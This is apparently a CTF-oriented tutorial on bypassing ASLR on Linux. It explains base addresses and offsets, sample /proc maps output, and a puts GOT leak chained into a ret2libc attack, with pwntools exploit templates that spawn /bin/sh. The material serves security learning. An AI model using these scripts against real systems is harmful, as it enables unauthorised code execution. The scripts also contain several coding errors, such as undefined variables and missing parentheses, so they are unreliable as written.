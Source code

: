 # ASLR Bypass

Address Space Layout Randomisation (ASLR) is a feature that causes memory addresses of functions and instructions to be randomised. Each time we run a binary, all of the addresses would change and never be the same.

In earlier Buffer Overflows, we examined how controlling the EIP can lead to RCE, with or without NX protection. However, with ASLR enabled, even if we can control the EIP, we cannot 'jump' anywhere because we wouldn't know where to jump to with ASLR enabled.

## Concepts

In order to bypass ASLR, we need to understand how it functions, as well as how functions are called. When we run a binary, the libraries and functions of that binary are loaded into virtual memory.

<figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

With ASLR enabled, the library would be **loaded at different places in memory** each time. With the main library being loaded differently, all functions called in the library are affected and have different locations in memory.

Functions are called based on **offsets**. For example, if the libc library is loaded at `0x10000000`, and the offset for the `printf()` function is `0x00001000`, then when a program is run and `printf()` is called, it is mapped at `0x10001000`. \
Generally, base address (where library is called) + offset = memory location of function.

The vulnerability arises because when ASLR is enabled, **the offset does not change and is constant**. So, if we are able to find the base address where the library is called, we can use the constant offsets to load certain functions. ****&#x20;

### **Methods**

To bypass ASLR, there are a few methods possible

* Information Leak Vulnerability
  * Can be an LFI or anything else that lets us **read memory locations on the machine**.&#x20;
  * Memory disclosure vulnerabilities also can work.
* Brute Forcing
  * Perhaps the range of addresses where the library is loaded is rather small. This indicates that the base address could be brute forced and a simple for loop can cover all of it rather quickly.&#x20;
  * Done in the October box from HTB.
* Memory Spraying
  * Involves using an amplification gadget, which is a piece of code that takes an existing chunk of data and copies it, allowing the attacker to spray a large amount of memory by only sending a relatively small number of bytes.
  * Heap spraying is not as feasible anymore (but still possible on iOS devices).

### Proc Maps

On Linux machines, we can inspect the mappings of a process given its pid through `procfs`, which is done through reading the file at `/proc/<pid>/maps`. Here's some sample output from the Retired box from HTB (which had an LFI):

```bash
$ cat /proc/407/maps
555aa1164000-555aa1165000 r--p 00000000 08:01 2408                       /usr/bin/activate_license
555aa1165000-555aa1166000 r-xp 00001000 08:01 2408                       /usr/bin/activate_license
555aa1166000-555aa1167000 r--p 00002000 08:01 2408                       /usr/bin/activate_license
555aa1167000-555aa1168000 r--p 00002000 08:01 2408                       /usr/bin/activate_license
555aa1168000-555aa1169000 rw-p 00003000 08:01 2408                       /usr/bin/activate_license
....... <truncated>
7f4888c53000-7f4888c54000 r--p 00000000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f4888c54000-7f4888c74000 r-xp 00001000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f4888c74000-7f4888c7c000 r--p 00021000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f4888c7d000-7f4888c7e000 r--p 00029000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f4888c7e000-7f4888c7f000 rw-p 0002a000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
....... <truncated>
7ffe99226000-7ffe99247000 rw-p 00000000 00:00 0                          [stack]
7ffe9932a000-7ffe9932e000 r--p 00000000 00:00 0                          [vvar]
7ffe9932e000-7ffe99330000 r-xp 00000000 00:00 0                          [vdso]
```

This provides memory addresses for each loaded library as well as the program itself. It also identifes areas of memory that are writable or executable.&#x20;

Now, suppose we do this multiple times, we can find out a few things like:

* How wide is the range of addresses? Can it be brute-forced?&#x20;
* Where is the stack loaded?
* Where is the heap relative to the binary?

In general, reading this (if we are able to) allows us to find out more efficient methods of exploitation.

## Information Leak

Now, suppose we have a leak to abuse. This involves using the PLT and GOT tables within the binary:

* Procedure Linkage Table is used to call external procedures whose address is not known in the time of linking, and is left to be resolved by the dynamic linker at run time.
* Global Offsets Table is similar but is used to resolve addresses.

Since the GOT and PLT are used everywhere in the binary, they must have static memory addresses, and the GOT needs to have write permissions.

The leak is exploited through using the `puts()` function to print the address of the `puts()` function (yes you read it right) in the `libc` file mapped in the GOT table, which would allow us to retrieve the base address of `libc` to call other functions, all at run time.

To do this, we would need 3 things:

1. Address of `pop rdi` to pass the argument to the RDI register, which would be used to puts.&#x20;
2. Address of GOT table where the `puts` in libc is.
3. Address of puts to print the address leaked.

To execute this, we can do the following commands:

```bash
ROPgadget --binary <binaryname> > gadgets.txt
cat gadgets.txt | grep "pop rdi"

objdump -D <binary> | grep puts
objdump -D <binary> | grep main
```

This would print the addresses we need for the script below:

```python
from pwn import *
p = process('./binary')
context(os='linux', arch='amd64)

offset = "A" * 300 # change number
pop_rdi = p64(<pop_rdi addr>)
got_put = p64(<puts@GLIBC addr>)
plt_put = p64(<puts@plt addr>)
plt_main = p64(<main addr>

payload = junk + pop_rdi + got_put + plt_put + plt_main

p.sendline(payload)
p.recvline() # depends on what we need

leaked_puts = p.recvline().strip.ljust(8,"\x00")
log.success('Leaked puts(): ' + str(leaked_puts))
p.interactive(prompt='')
```

But wait, why do we need the `main()` address? Well, this is because once our process is stopped, the address leaked will be randomised in the next execution, meaning that we cannot end the process and need a way to preserve it.

By using the main address function, we can 'preserve' this address and make the program wait at `main()` for the second stage of our exploit.

The next part of the exploit would be a basic ret2libc or ROP chain, depending on whether NX is enabled or what is possible. For this example, I will be using a simple ret2libc exploit. Since the offsets of the functions needed for this are **constant**, all we need to do now is use the address of `puts` to dump the function of the library.&#x20;

First we need to find the address of the `puts()` function within the `libc` file, as well as the `system()`, `/bin/sh`, and `exit()` for our ret2libc.

```bash
readelf -s /usr/lib/x86_64-linux-gnu/libc.so.6 |grep puts
readelf -s /usr/lib/x86_64-linux-gnu/libc.so.6 |grep system
strings -a -t x /usr/lib/x86_64-linux-gnu/libc.so.6 |grep /bin/sh
```

From the script below, we would be able to find the base address of where `libc` is loaded, and because we never technically exited the program, **the address is not randomised again**. (remember that we called `main()` again in the first payload)

```python
from pwn import *
p = process('./binary')
context(os='linux', arch='amd64')

offset = "A" * 300 # change number
pop_rdi = p64(<pop_rdi addr>)
got_put = p64(<puts@GLIBC addr>)
plt_put = p64(<puts@plt addr>)
plt_main = p64(<main addr>

payload = junk + pop_rdi + got_put + plt_put + plt_main

p.sendline(payload)
p.recvline() # depends on what we need

leaked_puts = p.recvline().strip.ljust(8,"\x00")
log.success('Leaked puts(): ' + str(leaked_puts))

leaked_puts = u64(leaked_puts)

libc_put = <libc puts addr>
offset = leaked_puts - libc # this gives us the base libc address

log.info('glibc offset: %x', offset)

libc_system = <system addr>
libc_binsh = </bin/sh addr>

sys = p64(offset + libc_system)
sh = p64(offset + libc_binsh)

payload2 = junk + pop_rdi + sh + sys
p.sendline(payload2)
p.recvline()

p.interactive(prompt="")
```

And this is how we bypass ASLR using an Information Leak.

## Memory Spraying

To bypass ASLR without the above method is a lot more difficult. This would require memory spraying, which lets us map contiguous memory of a given size, on a given range of addresses.&#x20;

This abuses a **memory leak, a bug of which memory is never 'freed'** and triggering it multiple times until the desired amount of memory has been leaked. Also, it uses an **amplification gadget** which is a piece of code that takes an existing chunk of data and copies it, allowing the attacker to spray a large memory range by only sending a small number of bytes.&#x20;

For now, I don't have enough knowledge on this to write a proper explanation, so here's a good resource I used to (sort of) understand what's going on.

{% embed url="https://github.com/nick0ve/how-to-bypass-aslr-on-linux-x86_64" %}
